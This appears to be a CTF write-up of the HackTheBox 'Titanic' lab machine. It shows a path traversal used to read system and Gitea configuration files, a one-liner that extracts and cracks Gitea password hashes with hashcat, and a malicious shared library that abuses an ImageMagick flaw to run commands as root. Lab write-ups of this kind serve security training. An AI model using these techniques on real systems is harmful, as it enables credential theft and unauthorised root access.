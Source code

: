 ```yaml
---
title: HackTheBox | Titanic
published: 2025-02-21
description: "In this writeup, I explain how I gain ownership of Titanic on HackTheBox"
image: "./img/image.png"
tags: [CTF, HTB, write-up]
category: 'CTF'
draft: false
---
```



# Nmap Scan

```bash
sudo nmap -sC -sV -T4 10.10.11.55
```
![nmap](image.png)

While exploring the website, I found a Book Your Trip button that triggers a form submission.


![button](image-1.png)

after filing the form and intercept the request with burpsuite, following the redirection

i find /download?ticket= path i tried path traversal and it worked

there is user names developer we can get the user flag from `/home/developer/user.txt`

![pathtraversal](image-2.png)

we continue to see if we can access `/etc/hosts` i found subdomain `dev`

![dev](image-3.png)

add it to my hosts

the app is using gitea so searching for its configuration i found this path

```bash
curl -X GET "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini"
```

![cong](image-4.png)

we can see the db is located at `/data/gitea/gitea.db`

after downloading the db we can access it with 
```bash
sqlite3 _home_developer_gitea_data_gitea_gitea.db
```

![db](image-5.png)

from `htb-compiled` writeup i found how to crack the hash

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

hashcat gitea.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
```

i found the developer password

![pass](image-6.png)

time for ssh

```bash
ssh developer@10.10.11.55
```

looking around i found this :
![scripts](image-7.png)

the script is runing as root, and whit the version i took look at google i found this PoC

[Arbitrary Code Execution in `AppImage` version `ImageMagick`](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

now we can try get the flag :

```bash
gcc -x c -shared -fPIC -o /opt/app/static/assets/images/libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root44_flag.txt");
    exit(0);
}
EOF

touch test.jpg
```

we can find the flag at `/tmp`

![win](image-8.png)
